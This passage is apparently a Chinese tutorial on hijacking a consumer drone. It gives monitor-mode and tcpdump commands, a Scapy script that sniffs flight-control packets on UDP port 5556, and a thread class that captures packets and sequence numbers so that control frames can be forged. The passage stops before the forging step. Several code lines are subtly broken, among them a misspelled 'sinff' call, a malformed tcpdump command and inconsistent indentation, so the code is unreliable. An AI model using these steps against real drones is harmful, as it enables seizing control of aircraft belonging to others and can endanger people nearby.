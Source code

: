 ## 用 Python 截取和监视无人机

### 截取数据包，解析协议

无人机和 iPhone 之间建立一个 `ad-hoc` 无线网络（点对点，ad-hoc 模式就和以前的直连双绞线概念一样，是 P2P 的连接，所以也就无法与其他网络进行沟通），MAC 地址绑定被证明是保护连接的唯一安全机制。只有配对成功的 iPhone 才能给无人机发送飞行控制指令。

首先，要将适配器调至混杂模式来监听流量。无人机发起了一个 UDP 流量，其目标地址是手机上的 UDP 5555 端口，发送的是视频信息，而飞行控制指令是通过 5556 端口实现的。

```shell
# airmon-ng start wlan0
# tcpdump-nn-i mon0
```

知道了 iPhone 是通过 UDP 5556 端口向无人机发送飞行控制指令之后，可以编写一个 Python 脚本来把飞行控制流量解析出来

```python
from scapy.all import *
NAVPORT = 5556
def print_pkt(pkt):
    if pkt.haslayer(UDP) and pkt.getlayer(UDP).dport == NAVPORT:
        raw = pkt.sprintf("%Raw.load%")
        print(raw)
conf.iface = "mon0"
sinff(prn=print_pkt)
```

通过分析，协议使用的语法是 `AT*CMD=SEQUENCE_NUMBER,VALUE,[VALUE{3}]` 语句。

接下来写一个 `interceptThread` 类，其中存储了攻击所得的信息，包括当前抓取到的数据包、每条无人机协议的顺序号，以及一个描述无人机流量是否已经被拦截的布尔量。

```python
class interceptThread(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.cur_pkt = None
        self.seq = 0
        self.found_uav = False
   def run(self):
		sniff(prn=self.intercept_pkt, filter="udp port 5556")
   def intercept_pkt(self, pkt):
		if self.found_uav == False:
            print("[*] UAV Found.")
            self.found_uav = True
        self.cur_pkt = pkt
        raw = pkt.sprintf("%Raw.load%")
        try:
            self.seq = int(raw.split(",")[0].split("=")[-1]) + 5
        except:
            self.seq = 0
```

### 用 Scapy 制作 802.11 数据帧

接下来，要伪造一个包含无人机命令的数据包。要从当前的数据包或者帧中复制出必要的信息。这个数据包穿越了 RadioTap、802.11、SNAP、LLC、IP 和 UDP 层。
